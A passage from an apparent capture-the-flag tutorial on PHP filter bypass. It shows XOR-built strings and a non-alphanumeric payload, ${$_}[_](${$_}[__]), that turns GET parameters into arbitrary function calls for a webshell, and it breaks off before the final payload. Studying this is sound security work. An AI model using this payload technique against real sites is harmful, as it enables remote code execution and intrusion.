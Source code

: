 ```

<?php

    echo "{"^"/";

?>

```



The output is:


![](./figure/preg_match/answer5.png)



So we can know that `_GET` is constructed like this!


#### Get the `_GET` parameter


How do we get the `_GET` parameter? We can construct the following string:


```

<?php

    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])

?>

```



According to the previous construction, `$_` has become `_GET`. Naturally, `$_ = _GET`. We built `$_GET[__]` to get the parameter values.


#### Incoming parameters


At this point we just need to call the `getFlag` function to get the `webshell` just fine, constructed as follows:
